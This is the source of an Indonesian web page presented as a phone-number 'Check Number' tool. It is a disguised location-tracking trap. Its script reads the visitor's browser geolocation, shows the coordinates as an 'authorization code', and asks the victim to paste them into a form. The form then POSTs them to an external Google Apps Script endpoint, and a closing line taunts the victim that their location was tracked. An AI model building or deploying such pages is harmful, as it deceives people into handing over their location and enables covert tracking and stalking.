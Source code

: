 <html lang="in">
<head>
				<link rel="stylesheet" href="adsense.css">
				<title>Nomor aku</title>
				
					<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
					
					
				
				<style>
						.judul{
				background-color:gray;
				position:fixed;
				right:0; left:0;
				top:0; padding:14px;
				
}

.jud {
				background-color:gray;
				width:25%;
				
				opacity:;
				margin-left:20px;
				display:flex;
				justify-content:space-between;
				flex-direction:column;
				margin-top:10px; margin-bottom:-30px;
				
}

.jud span{
				background-color:white;
				color:red;
				width:17px;
				height:3px;
				display:block;	
				margin-left:-3px; margin-bottom:-30px;
				
				
				
}
		
								
								
						body{
						 background-color:gainsboo;
						 }
						 
						 .tempat{
						 color:black;
						 text-align:center;
						 font-size:15px;
						 display:no;
						 
						 }
							
							.kirim{ 
							display:none;
							margin-left:30%;
						  display:blok;
						  width:40%;
						  border:none;
						  text-decoration:none;
						  padding:10px;
						  background-color:black;
						  border-radius:3px;
						  color:white;
						  font-weight:bold;
							}
							
							.lokasi{
							display:none;
							margin-left:20%;
						  display:blck;
						  width:60%;
						  text-decoration:none;
						  border:none;
						  background-color:gainsboro;
						  padding:10px;
						  border-radius:3px;
						  font-size:13px;
							
							
							}
							
							.nomor{
							font-weight:bold;
							text-align:center;
							color:#e8491d;
							font-size:20px;
							}
							
							
						  .number{
						  margin:auto;
						  display:block;
						  width:60%;
						  text-decoration:none;
						  border:none;
						  background-color:gainsboro;
						  padding:10px;
						  border-radius:3px;
						  font-size:13px;
						  }
						  
						  .no{
						  margin:auto;
						  display:block;
						  width:40%;
						  border:none;
						  text-decoration:none;
						  padding:10px;
						  background-color:black;
						  border-radius:3px;
						  color:white;
						  font-weight:bold;}
						  
						  
						  .kode{
						  text-align:center;
						  font-size:20px;
						  font-weight:bold;
						  color:#e8491d;
						  display:none;
						  }
						  
						  .miring{
						  text-align:center;
						  color:gainsboro;
						  
						  display:none;}
						  
						  .lastman{
						  text-align:center;
						  font-weight:bold;
						  display:none;
						  font-size:30px;}
						  
						  .bawah{
						   padding:20px;
  position:fixed;
bottom:0;
right:0;
left:0;
background-color:grey;
  
						  }

.check{
text-align:center;
color:white;
font-size:12px;
}


							.na{
				margin-top:-21px;
				text-align:center;
	     font-family:cursive,"Brush Script MT";
	     color:white;
}	
		

	

	

	

	

						
								
								
				</style>
</head>
<body>
				
				<div class="judul">
								<button class="jud">
												<span></span>
												<span></span>
												<span></span>
								</button>
								<h3 class="na">Check Number</h3>
				</div>
			
				
				
				
				
				
				
				<form name="Test-Fb">
				<p class="nomor" id="nomor">Masukan Nomor HP</p>
				<input type="text" id="number" class="number" placeholder="+62..."><br>
				<p id="kode" class="kode">Kode Otorisasi</p>
				<p id="demo" class="tempat"></p>
				<button class="no" onclick="getLocation()" id="pilih" >Kirim</button>
				<script>
							var x = document.getElementById("demo");

function getLocation() {
  if (navigator.geolocation) {
    navigator.geolocation.getCurrentPosition(showPosition);
  } else { 
    x.innerHTML = "Geolocation is not supported by this browser.";
  }
}

function showPosition(position) {
  x.innerHTML = " " + position.coords.latitude + 
  "<br>" + position.coords.longitude;
}
				</script>
				
				
				
				<p class="miring" id="miring"><em>Salin code lalu masukan </em></p>
				
				<input type="text" name="gambar" id="lokasi" class="lokasi" placeholder="####"><br><br>
				<button class="kirim" id="kirim" type="submit">Kirim</button></form>
				
				<p class="lastman" id="lastman">Selamat anda kena shadap location</p>
				<br><br><br><br>	<br><br>
				
				<div class="bawah">
						<p class="check">Check Number, Copyright &copy; 2019</p>
				</div>
				
				<script>
				$(document).ready(function(){
  $("#pilih").click(function(){
    $("#lokasi").fadeIn(1000);
    $("#kirim").fadeIn(1000);  
    $("#nomor").fadeOut(100);
    $("#number").fadeOut(100);
    $("#pilih").fadeOut(100); 
    $("#kode").fadeIn(1000); 
    $("#miring").fadeIn(1000);
    $("#demo").fadeIn(1000);
  });
});

</script>


<script>
				$(document).ready(function(){
  $("#kirim").click(function(){
    $("#kirim").fadeOut(100);
    $("#lokasi").fadeOut(100);
     $("#miring").fadeOut(100);
    $("#kode").fadeOut(100);
    $("#lastman").fadeIn(1000);
    
    });
});
    
</script>




<script>
  const scriptURL = 'https://script.google.com/macros/s/AKfycbwz07cfyR66rBWYsLgmyHbNoqyzUeDm3Y-zQIdCkrZ7zNEdR0DQwJFJa6LFVcWSOxnJ/exec'
  const form = document.forms['Test-Fb']

  form.addEventListener('submit', e => {
    e.preventDefault()
    fetch(scriptURL, { method: 'POST', body: new FormData(form)})
      .then(response => console.log('Success!', response))
      .catch(error => console.error('Error!', error.message))
  })
</script>
				
</body>
</html>

